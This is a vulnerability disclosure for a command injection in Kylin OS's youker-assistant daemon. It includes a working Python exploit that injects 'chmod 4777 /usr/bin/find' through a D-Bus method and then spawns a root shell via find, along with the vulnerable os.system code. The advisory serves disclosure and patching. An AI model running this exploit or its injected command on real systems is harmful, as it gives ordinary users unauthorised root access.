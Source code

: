 # Kylin OS youker-assistant privilege escalation vulnerability

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
Youker-assistant is an integrated tool on KylinOS Desktop to help perform daily system maintenance tasks. There is a command injection vulnerability in this component, which may lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
- Desktop：youker-assistant < 3.1.4.13
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
import os
import time
import dbus
import getpass

bus = dbus.SystemBus()


interface = dbus.Interface(bus.get_object('com.kylin.assistant.systemdaemon', 
			'/com/kylin/assistant/systemdaemon'), 
			'com.kylin.assistant.systemdaemon')

interface.adjust_cpufreq_scaling_governer ("123|chmod 4777 /usr/bin/find|")
time.sleep(3)

os.system('find /tmp -exec /bin/sh -p \;')
```

### Vuln details
Vuln function:

adjust_cpufreq_scaling_governer

Vuln Type: Command Injection

vuln code:
```
   else:
                        cmd = 'echo %s > %s' % (value, filepath)
                        os.system(cmd)
```
The value in the command executed by system comes from user input, which can be used for command injection.
